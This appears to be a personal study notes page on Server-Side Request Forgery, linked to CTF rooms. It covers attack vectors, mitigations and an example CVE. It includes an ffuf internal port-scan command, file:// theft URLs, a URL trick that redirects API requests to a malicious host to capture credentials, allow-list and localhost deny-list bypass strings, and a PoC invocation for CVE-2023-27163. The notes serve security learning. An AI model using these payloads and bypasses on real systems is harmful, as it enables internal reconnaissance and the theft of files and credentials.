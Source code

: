 # Server-Side Request Forgery (SSRF)

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![ssrfhr](../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)
[![adventofcyber2](../../../../_badges/thm/adventofcyber2/day19.svg)](https://tryhackme.com/room/adventofcyber2)
[![testingforssrf](../../../../_badges/owasp/testingforssrf.svg)](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery)
[![server_side_request_forgery](../../../../_badges/poat/server_side_request_forgery.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

<div class="row row-cols-lg-2"><div>

Server-Side Request Forgery (SSRF) is an attack in which a hacker can make a server request something from another server, usually an internal server or an API.

From instance, a website using an API. If there is a SSRF vulnerability, the hacker may be able to query the API by exploiting the website.

Common attack vectors

* 📚 Headers <small>(mostly User-Agent)</small>
* 📄 Forms <small>(internal API calls)</small>
* 🍪 Cookies
* 🌍 Remote connections <small>(imports, file processing, etc.)</small>
</div><div>

Common usages are:

* 🗺️ Port mapping
* 🗺️ Access internal services
* 💰 Steal sensitive data
* 💥 Perform a DoS

There are two kinds of SSRF

* **Regular/in-band SSRF**: the client will see the result
* **Blind/out-band SSRF**: nothing is returned to the client

Refer to [request grabber](/cybersecurity/red-team/_knowledge/topics/request_grabber.md) to catch requests.
</div></div>

<hr class="sep-both">

## SSRF Attack Vectors

<div class="row row-cols-lg-2"><div>

#### Remote URL Access

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrfhr](../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![surfer](../../../../_badges/thm-p/surfer.svg)](https://tryhackme.com/r/room/surfer)

The most common scenario is when a website requests an external resources using user input, such as an external avatar URL.

A common scenario is a [PHP](/programming-languages/web/php/_general/index.md) call to `file_get_contents` to access a remote file. You have similar functions in other languages.

You may be able to:

* Map ports/services 🗺️
* Steal files 💰

#### Remote API Endpoint Access

[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)

If a website is making a request to an external API based on a endpoint controlled by the user, we may be able to access another unintended endpoint. Ex: `website.a/?api=path` $\to$ `website.b/path`.

You may be able to:

* Access unintended API endpoints 🛣️
</div><div>

#### Remote API Access

[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)

If the programmer is using user input to determine which server will be queried, then the hacker may try to send the request to their servers instead, and get the API credentials inside the headers.

Ex: `a?api=xxx&r=path` $\to$ `xxx.b/path`

* We send the request to `https://xxx.thebestapi.example/path`
* If `api=malicious_website.com?&ignore=`, then the URL crafted is `https://malicious_website.com?&ignore=.thebestapi.com/path`!

You may be able to:

* Steal API tokens/credentials 💵
</div></div>

<hr class="sep-both">

## SSRF Exploitation

<div class="row row-cols-lg-2"><div>

#### Mapping ports/services 🗺️

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![ssrfhr](../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)

You may inject URLs such as `http://localhost:22` to test if the port `22` is open. You can use fuzzing to enumerate all ports:

```ps
$ seq 1 65535 > ports.txt
$ ffuf -w ports.txt -u 'http://IP/?xxx=http://127.0.0.1:FUZZ' -fr 'Connection refused'
```

You could also make the server call `http://ifconfig.pro/` to get some information <small>(IP, DNS...)</small> to perform more advanced attacks.
</div><div>

#### Access Internal Services 🗺️

[![ssrfhr](../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)
[![surfer](../../../../_badges/thm-p/surfer.svg)](https://tryhackme.com/r/room/surfer)

You may be able to query internal IPs or internal websites.

#### Steal files 💰

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![ssrfhr](../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)

You may inject URLs to steal a file. For instance, a URL using the file protocol: `file://some/file/on/the/target`.

* [List of interesting files](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/arbitrary_file_access.md)
* You could also try to connect to your FTP server using `ftp://`.
</div></div>

<hr class="sep-both">

## Mitigations 🛡️

[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![ssrfhr](../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)

<div class="row row-cols-lg-2"><div>

As usual: input validation, sanitization, strong access controls, logging and monitoring, etc. You may also use network segmentation.

**Allow List/Whitelist**

We define what is allowed such as which URLs/resources. It can be bypassed. If there is a condition like `the URL must start with https://example.com`, then it can be bypassed with:

* `https://example.com.malicious.website`
* `https://example.com@malicious.website`
</div><div>

**Deny list/Blacklist**

You may allow every IP aside from some such as localhost <small>(127.0.0.1)</small>, or `169.254.169.254` in a cloud environment, but there are usually a lot of ways to bypass such filters. 

All of these are resolving to `127.0.0.1`:

*  `0`, `00`, `000[...]0`, `0.0.0.0`, `127.1` (IP shortening)
* `2130706433` (decimal), `017700000001` (octal)
* [127.0.0.1.nip.io](http://127.0.0.1.nip.io), [localtest.me](http://localtest.me), [lvh.me](http://lvh.me), etc.
* ...
</div></div>

<hr class="sep-both">

## Example CVEs

<div class="row row-cols-lg-2"><div>

#### CVE-2023-27163

[![sau](../../../../_badges/htb-p/sau.svg)](https://app.hackthebox.com/machines/Sau)

CVE in [request-baskets](https://github.com/darklynx/request-baskets). [POC (shell script)](https://github.com/entr0pie/CVE-2023-27163) <small>(0.03k ⭐)</small>.

```shell!
$ ./CVE-2023-27163.sh http://target:port http://listener:port 
Creating the "<backet>" proxy basket...
Basket created!
$ curl http://target:port/<backet> # sent to listener URL
```

It can be used to access a resource behind a firewall.

```ps
$ ./CVE-2023-27163.sh http://target:port http://target:fport 
```
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

Other attack vectors

* avatar form
* a script
* a header
* ...
</div><div>

* [Gopherus](https://github.com/tarunkant/Gopherus)
* [SSRFmap](https://github.com/swisskyrepo/SSRFmap)
</div></div>